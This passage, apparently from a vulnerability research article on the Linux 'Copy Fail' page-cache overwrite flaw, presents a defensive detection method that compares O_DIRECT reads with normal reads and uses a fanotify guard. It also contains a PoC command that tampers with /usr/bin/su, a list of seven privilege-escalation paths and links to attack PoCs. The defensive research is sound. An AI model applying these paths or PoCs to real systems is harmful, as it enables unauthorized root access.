**Core limitation**: Syscall-based detection cannot achieve zero false positives—it can only indicate "someone is using `AF_ALG`," not confirm "someone is exploiting Copy Fail." A more fundamental problem is coverage: as discussed in Section 5, page cache overwrite is a recurring vulnerability pattern—detection targeting `AF_ALG` won't catch Dirty Frag's `AF_KEY`, and detection targeting `splice` cannot distinguish legitimate zero-copy operations. Blocklisting specific syscalls will never keep up with new variants.

A different approach: instead of detecting the **attack method**, detect the **attack outcome**. Regardless of which vulnerability the attacker exploits, for vulnerabilities that only modify the page cache (Dirty Pipe, Copy Fail, Dirty Frag), there will inevitably be an inconsistency between the tampered page cache and the original content on disk. This inconsistency can be detected.

### 8.2 Generic Detection: O_DIRECT Page Cache Comparison

The `O_DIRECT` flag causes `read()` to bypass the page cache and read data directly from the disk block device. Comparing `O_DIRECT` read results with normal `read()` results reveals page cache tampering if they differ:

```
Normal read:    File → [Page Cache] → User buffer    ← Reads tampered data
O_DIRECT:       File → [Disk]       → User buffer    ← Reads original data

If they differ → Page Cache was illegally modified
```

This method has three key advantages:

1. **Generality**: It can detect all vulnerabilities that **only modify the page cache** (Copy Fail, Dirty Pipe, Dirty Frag, and future 0-days of the same class), not tied to any specific attack method. Dirty COW is an exception—it writes modifications back to disk via page writeback, causing O_DIRECT to also read tampered data, requiring traditional file integrity checking (`rpm -V` / AIDE / Tripwire) for detection
2. **Determinism**: For files not opened in write mode by any process, page cache inconsistency with disk is an **absolute anomaly**—the Linux kernel guarantees via `deny_write_access()` that a file cannot be simultaneously written to and executed
3. **Detects attack outcomes rather than methods**: Even if the attacker uses an unknown vulnerability to tamper with the page cache, tampering is detected as long as it occurs

The detection capability of O_DIRECT for overlay2 layer files and host SUID files was verified in a CentOS 8 (XFS) experimental environment. Using host `/usr/bin/su` (SUID file) as an example:

```bash
# Copy Fail tampers with /usr/bin/su's ELF header
python3 poc_marker.py /usr/bin/su
# [+] SUCCESS: page cache corrupted! first 4 bytes = deadbeef

# O_DIRECT comparison immediately detects the difference
# Page cache [0:16]: deadbeef020101000000000000000000  ← After tampering
# O_DIRECT  [0:16]: 7f454c46020101000000000000000000  ← Original ELF header on disk
# [ALERT] SUID binary TAMPERED! 4 bytes differ at: [0, 1, 2, 3]
```

Technical implementation notes: `O_DIRECT` reads require memory address and read length alignment to the filesystem block size (typically 4096), necessitating aligned buffer allocation via `posix_memalign()`. ext4, XFS, Btrfs, and overlay2 (when backed by ext4/XFS) all support `O_DIRECT`; tmpfs does not (but is unlikely to be an attack target).

### 8.3 Runtime Interception: fanotify Guard

O_DIRECT comparison solves the "can we detect" question, but still needs to answer "when to trigger detection." Periodic full scans are not timely enough, and checking every file open event is too expensive.

Linux's `fanotify` subsystem provides the `FAN_OPEN_EXEC_PERM` event (kernel >= 5.0)—when `execve()` is triggered, it sends a permission request to user space, where a program can read the file contents, perform checks, and reply with `FAN_ALLOW` (permit) or `FAN_DENY` (deny execution). Combining O_DIRECT comparison with fanotify yields a **runtime real-time interception** solution:



Design decision rationale:

- **Only monitor SUID/SGID files**: At startup, the target directory is scanned to build a SUID/SGID file set. Execution of non-SUID files is passed through directly with zero overhead
- **Skip root execution**: root already has the highest privileges and does not need SUID for privilege escalation. In container escape scenarios, the tamperer is the container's root, but the victim (the one executing the tampered SUID file) is an unprivileged host user—Guard correctly intercepts this scenario
- **Kernel compatibility**: `FAN_OPEN_EXEC_PERM` requires kernel >= 5.0 (RHEL 8 supports it via backport, verified). On older kernels, it automatically falls back to `FAN_OPEN_PERM` (intercepting all open events with user-space filtering, slightly higher overhead but functionally equivalent)
- **No need to additionally check write FDs**: If a SUID file is being updated by a package manager, the kernel itself rejects `execve()` via `deny_write_access()` (returning `ETXTBSY`), so there is no "false positive from legitimate updates" scenario

Experimental results on CentOS 8 (kernel 4.18.0):

```
2026-05-08 06:57:34 INFO Found 21 SUID/SGID files
2026-05-08 06:57:34 INFO Monitoring mount (FAN_OPEN_EXEC_PERM): /usr
2026-05-08 06:57:34 INFO Guard active [ENFORCE] (event_size=24, check_root=False)

# After Copy Fail tampers with /usr/bin/su, unprivileged user attempts execution:
2026-05-08 06:57:38 WARNING [ALERT] BLOCKED pid=2677362 uid=1000 /usr/bin/su
                            (page cache tampered at offset 0)
# User side:
$ /usr/bin/su
bash: /usr/bin/su: Operation not permitted  (exit 126)
```

Guard successfully intercepted the tampered SUID binary at the `execve()` stage, preventing privilege escalation.

#### Detection Coverage

The fanotify Guard intercepts `execve()` based on `FAN_OPEN_EXEC_PERM` and is designed to cover only SUID/SGID binary execution. Cross-referencing with the 7 host privilege escalation paths from Section 5:

| Attack Path | fanotify Guard | O_DIRECT Periodic Scan | Reason |
|---------|:--------------:|:----------------:|------|
| SUID/SGID binary overwrite | ✅ | ✅ | Real-time interception at execve |
| /etc/passwd UID tampering | ❌ | ✅ | Config file, read via `open()`+`read()` |
| PAM module authentication bypass | ❌ | ✅ | Shared library loaded via `dlopen()` |
| Shared library live-patching | ❌ | ✅ | Mapped via `mmap()`, not execve |
| /etc/profile command injection | ❌ | ✅ | Read via login shell `source` |
| Cron script tampering | ❌ | ✅ | Executed by crond via `execve()`, but not a SUID file |
| ld.so.preload path hijacking | ❌ | ✅ | Read by dynamic linker at process startup |
| Container escape (layer sharing) | ❌ | ✅ | Periodic scanning of overlay lower layer |

The fanotify Guard addresses the most critical scenario—preventing tampered SUID binaries from executing for privilege escalation. The remaining 6 host paths and container scenarios require O_DIRECT periodic scanning for coverage. Recommended scan priority: PAM modules and shared libraries (`/lib64/security/`, `/lib64/*.so`) > critical configuration files (`/etc/passwd`, `/etc/profile`, `/etc/ld.so.preload`) > cron scripts and container lower layers. For read-only files in lower layers, page cache inconsistency with disk = 100% anomaly, with zero false positives.

> **ℹ️ Detection Tool Open Source**
> `pagecache_guard.py` and PoC scripts are open source: [github.com/0xlane/pagecache-guard](https://github.com/0xlane/pagecache-guard)
> Features include dry-run mode, syslog output, periodic SUID file rescanning, and more. See the repository README for details.

---

## 9. Conclusion

Copy Fail is a classic **cross-subsystem design assumption conflict** vulnerability. `authencesn` assumed the output buffer was safe kernel memory, `algif_aead`'s in-place optimization allowed the output buffer to contain page cache pages, and `splice` zero-copied file data into this path—each individually a reasonable design, but combined they produced a security vulnerability that persisted for 9 years.

**At the host level**, the attack surface extends far beyond the SUID overwrite demonstrated in public PoCs. Experiments verified 7 independent privilege escalation paths: from the simplest `/etc/passwd` UID tampering (a single 4-byte write), PAM authentication bypass (gaining root with any password), shared library live-patching (modifying running process code segments without restart), to `/etc/profile` command injection, cron script tampering, and `ld.so.preload` path hijacking—these paths are universal across all page cache overwrite vulnerabilities, not limited to Copy Fail. Among these, shared libraries and PAM modules have semi-permanent persistence due to the mmap reference retention effect (`drop_caches` cannot evict them). **At the container level**, Page Cache as a globally shared state that crosses isolation boundaries makes cross-container page cache pollution and read-only volume bypasses a reality. However, after in-depth verification, zero-privilege container escape in standard K8s environments is architecturally infeasible—containerd/runc does not execute snapshot layer files in the host context, requiring additional privileged configurations (hostPath, `CAP_DAC_READ_SEARCH`, etc.) to convert page cache tampering into an escape. In Docker environments, `docker export` can persist tampered data while `docker diff` fails to detect it, providing stealth value in supply chain scenarios.

From a broader perspective, Copy Fail is one member of the "splice zero-copy + kernel in-place writeback" page cache overwrite pattern—from Dirty Pipe in 2022 to Copy Fail in 2026 and the immediately following Dirty Frag (CVE-2026-43284/43500), vulnerabilities where splice introduces page cache page references into kernel subsystems that are then unexpectedly written back have recurred across three independent subsystems. Just 8 days after Copy Fail was fixed, Dirty Frag was discovered with the same primitives in a different subsystem. This means defense cannot focus solely on `AF_ALG`—the next variant may come from any zero-copy path that involves in-place operations.

For this very reason, the detection approach should shift from "detecting attack methods" to "detecting attack outcomes": `O_DIRECT` bypasses the page cache to read directly from disk, and comparing with normal `read()` results reveals tampering. This method is universal for all vulnerabilities that only modify the page cache (Copy Fail, Dirty Pipe, Dirty Frag, and future 0-days of the same class), with the exception of Dirty COW (which writes back to disk, requiring traditional file integrity checking). For SUID/SGID binaries, combining O_DIRECT comparison with `fanotify`'s `FAN_OPEN_EXEC_PERM` enables real-time interception of tampered executions at `execve()` time; the remaining attack surfaces (PAM modules, shared libraries, configuration files, etc.) are covered through O_DIRECT periodic scanning.

**Defense and Detection Recommendations**:

1. **Upgrade the kernel** (root fix)
2. **Deploy seccomp profile to block AF_ALG** (simplest and most effective mitigation for container environments; built into Docker ≥ 29.4.3)
3. **Deploy fanotify + O_DIRECT Guard** (runtime interception of tampered SUID/SGID binaries, blocking the most direct privilege escalation path)
4. **O_DIRECT periodic scanning of critical files** (covers attack surfaces that Guard cannot intercept: PAM modules, shared libraries, `/etc/passwd`, `/etc/profile`, and other configuration files, as well as container lower layers)
5. **Auditd / Falco baseline alerting** (audit safety net, recording AF_ALG usage behavior)

---

*Vulnerability details were originally publicly disclosed by Taeyang Lee at [xint.io](https://xint.io/blog/copy-fail-linux-distributions). This article builds upon that disclosure with independent in-depth analysis and experimental verification.*

---

## Appendix: Experiment Code

All experimental scripts and configuration files referenced in this article are open source:

| Purpose | Link |
|------|------|
| **Page cache integrity detection tool** (fanotify + O_DIRECT Guard) | [github.com/0xlane/pagecache-guard](https://github.com/0xlane/pagecache-guard) |
| **Host attack path PoCs** (passwd/PAM/shared lib/profile/cron/preload/SUID) | [pagecache-guard/poc/host-attacks](https://github.com/0xlane/pagecache-guard/tree/main/poc/host-attacks) |
| QEMU debugging environment (Dockerfile, kernel build, C PoC) | [Gist: copyfail-qemu-env](https://gist.github.com/0xlane/a854338363e449bdb002b43ff5080e55) |
| GDB breakpoint scripts (SGL observation, scratch write tracing) | [Gist: copyfail-gdb-scripts](https://gist.github.com/0xlane/0d565281d6a2ae05de2fc310a4a23a90) |
| Container experiments (cross-tenant attack, hostPath bypass, layer sharing verification) | [Gist: copyfail-container-experiments](https://gist.github.com/0xlane/d89e230c9e18bfd8cc126452352afae6) |

---

## References

### Vulnerability Disclosure and Analysis

- Taeyang Lee, *Copy Fail: One-shot local privilege escalation via the Linux crypto API* — [xint.io](https://xint.io/blog/copy-fail-linux-distributions)
- NVD, *CVE-2026-31431* — [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2026-31431)
- Copy Fail official page — [copy.fail](https://copy.fail/)
- Microsoft Defender, *CVE-2026-31431 Copy Fail vulnerability enables Linux root privilege escalation* — [microsoft.com](https://www.microsoft.com/en-us/security/blog/2026/05/01/cve-2026-31431-copy-fail-vulnerability-enables-linux-root-privilege-escalation/)
- CISA Known Exploited Vulnerabilities Catalog — [cisa.gov](https://www.cisa.gov/known-exploited-vulnerabilities-catalog?field_cve=CVE-2026-31431)

### Kernel Commits

- [`a5079d084f8b`](https://github.com/torvalds/linux/commit/a5079d084f8b) — 2011, authencesn module introduced
- [`72548b093ee3`](https://github.com/torvalds/linux/commit/72548b093ee3) — 2017, **vulnerability introduced**: algif_aead in-place optimization
- [`a664bf3d603d`](https://github.com/torvalds/linux/commit/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5) — 2026, **vulnerability fixed**: in-place reverted

### Container Security Response

- Juliet, *We tested Copy Fail in Kubernetes: PSS Restricted + RuntimeDefault do not block AF_ALG* — [juliet.sh](https://juliet.sh/blog/we-tested-copy-fail-in-kubernetes-pss-restricted-runtime-default-af-alg)
- Stream Security, *CVE-2026-31431: how Copy Fail behaves in Kubernetes* (EKS empirical study) — [stream.security](https://www.stream.security/post/cve-2026-31431-how-copy-fail-behaves-in-kubernetes)
- Percivalll, *Copy Fail Kubernetes PoC* (ACK/EKS/GKE validation, Pod→Node escape) — [GitHub](https://github.com/Percivalll/Copy-Fail-CVE-2026-31431-Kubernetes-PoC)
- Docker seccomp fix (block AF_ALG, v29.4.2) — [moby/moby#52494](https://github.com/moby/moby/pull/52494)
- Docker 29.4.3 regression fix (AppArmor/SELinux) — [v29.4.3 release](https://github.com/moby/moby/releases/tag/docker-v29.4.3)
- Sidero Labs / Talos response — [siderolabs.com](https://www.siderolabs.com/blog/exploit-fail-cve-2026-31431-copy-fail-barely-scratches-talos-linux/)
- vArmor Copy Fail mitigation rules (AppArmor/BPF) — [GitHub](https://github.com/bytedance/vArmor/blob/main/website/docs/guides/policies_and_rules/built_in_rules/vulnerability_mitigation.md#copy-fail-mitigation)
- iwanhae, *copyfail-ebpf-k8s* (eBPF mitigation) — [GitHub](https://github.com/iwanhae/copyfail-ebpf-k8s)

### Distribution Security Advisories

- Ubuntu, *Fixes available for CVE-2026-31431 (Copy Fail)* — [ubuntu.com](https://ubuntu.com/blog/copy-fail-vulnerability-fixes-available)
- Red Hat, *RHSB-2026-02 Cryptographic Subsystem Privilege Escalation* — [access.redhat.com](https://access.redhat.com/security/vulnerabilities/RHSB-2026-02)
- Debian Security Tracker, *CVE-2026-31431* (DSA-6238-1, DSA-6243-1) — [security-tracker.debian.org](https://security-tracker.debian.org/tracker/CVE-2026-31431)
- SUSE, *SUSE responds to the copy.fail vulnerability* — [suse.com](https://www.suse.com/c/suse-responds-to-the-copy-fail-vulnerability/)
- Alpine Linux Security Tracker — [security.alpinelinux.org](https://security.alpinelinux.org/vuln/CVE-2026-31431)
- Oracle Linux CVE Tracker — [linux.oracle.com](https://linux.oracle.com/cve/CVE-2026-31431.html)
- AlmaLinux, *CVE-2026-31431 Copy Fail* — [almalinux.org](https://almalinux.org/blog/2026-05-01-cve-2026-31431-copy-fail/)
- Arch Linux Security Tracker — [security.archlinux.org](https://security.archlinux.org/CVE-2026-31431)
- AWS Security Bulletin, *CVE-2026-31431* — [aws.amazon.com](https://aws.amazon.com/security/security-bulletins/rss/2026-026-aws/)
- Bottlerocket issue #4821 — [GitHub](https://github.com/bottlerocket-os/bottlerocket/issues/4821)
- Fedora Discussion, *Is Copy Fail patched in Fedora 43?* — [discussion.fedoraproject.org](https://discussion.fedoraproject.org/t/is-the-copy-fail-cve-2026-31431-vulnerability-already-patched-in-fedora-43/190016)
- CloudLinux / KernelCare, *Copy Fail live patches* — [blog.cloudlinux.com](https://blog.cloudlinux.com/cve-2026-31431-copy-fail-kernel-update)

### Security Vendor Analysis

- Palo Alto Unit 42, *Copy Fail: What You Need to Know* — [unit42.paloaltonetworks.com](https://unit42.paloaltonetworks.com/cve-2026-31431-copy-fail/)
- Wiz.io, *CopyFail: Linux privilege escalation vulnerability* — [wiz.io](https://www.wiz.io/blog/copyfail-cve-2026-31431-linux-privilege-escalation-vulnerability)
- Sysdig, *CVE-2026-31431 Copy Fail: Linux kernel flaw lets local users gain root* — [sysdig.com](https://www.sysdig.com/blog/cve-2026-31431-copy-fail-linux-kernel-flaw-lets-local-users-gain-root-in-seconds)
- Kudelski Security — [kudelskisecurity.com](https://kudelskisecurity.com/research/linux-cve-2026-31431-copy-fail-lpe-enables-stealthy-root-access-container-escape)
- SentinelOne Vulnerability Database — [sentinelone.com](https://www.sentinelone.com/vulnerability-database/cve-2026-31431/)
- Kodem Security, *CVE-2026-31431 Remediation Runbook* — [kodemsecurity.com](https://www.kodemsecurity.com/resources/cve-2026-31431-copy-fail-linux-kernel-lpe-breakdown-and-remediation-runbook)

### Community Discussion and Coverage

- Hacker News discussion (incl. mitigations and WSL2 impact) — [news.ycombinator.com](https://news.ycombinator.com/item?id=47952181)
- CyberKendra, *A 732-byte Python script can get root* — [cyberkendra.com](https://www.cyberkendra.com/2026/04/a-732-byte-python-script-can-get-root.html)

### Related Page Cache Overwrite Vulnerabilities

- CVE-2016-5195 *Dirty COW* — [dirtycow.ninja](https://dirtycow.ninja/)
- CVE-2017-1000405 *Huge Dirty COW* — [Bindecy](https://medium.com/bindecy/huge-dirty-cow-cve-2017-1000405-110eca132de0)
- CVE-2022-0847 *Dirty Pipe* — [dirtypipe.cm4all.com](https://dirtypipe.cm4all.com/)
- CVE-2026-43284 + CVE-2026-43500 *Dirty Frag* — [dirtyfrag.io](https://dirtyfrag.io/) / [GitHub PoC](https://github.com/V4bel/dirtyfrag) / [oss-security](https://www.openwall.com/lists/oss-security/2026/05/07/8)

### Prior Research

- Taeyang Lee, *kernelCTF AF_ALG attack surface research* — [google/security-research#332](https://github.com/google/security-research/pull/332)
- Xint Code AI security research platform — [code.xint.io](https://code.xint.io/)
